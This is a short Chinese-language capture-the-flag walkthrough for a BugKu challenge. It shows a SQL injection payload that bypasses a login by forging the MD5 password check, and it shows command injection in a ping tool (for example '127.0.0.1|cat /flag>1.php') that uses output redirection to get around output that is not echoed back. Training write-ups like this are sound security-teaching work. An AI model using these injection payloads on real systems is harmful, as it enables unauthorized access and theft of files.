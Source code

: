 ### 输出重定向绕过

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67bc0d3bd0e0a243d4033c98.png)

打开页面是一个登录框

![](https://pic1.imgdb.cn/item/67bc0ea8d0e0a243d4033d2e.png)

在 BurpSuite 中抓包发现有 tip

![](https://pic1.imgdb.cn/item/67bc0ec8d0e0a243d4033d4c.png)

解码是后端 SQL 语句

显示如果密码等于它的 md5 值则登陆成功

![](https://pic1.imgdb.cn/item/67bc0eecd0e0a243d4033d57.png)

构造 payload

```
' union select 1,md5(123)#&password=123
```

登录进去是一个 Ping 程序

![](https://pic1.imgdb.cn/item/67bc0f22d0e0a243d4033d65.png)

127.0.0.1|ls / 没有回显

127.0.0.1|sleep 5 有延迟说明命令执行了，但是输出可能被过滤了

127.0.0.1|cat /flag>1.php 输出重定向

![](https://pic1.imgdb.cn/item/67bc0fadd0e0a243d4033daf.png)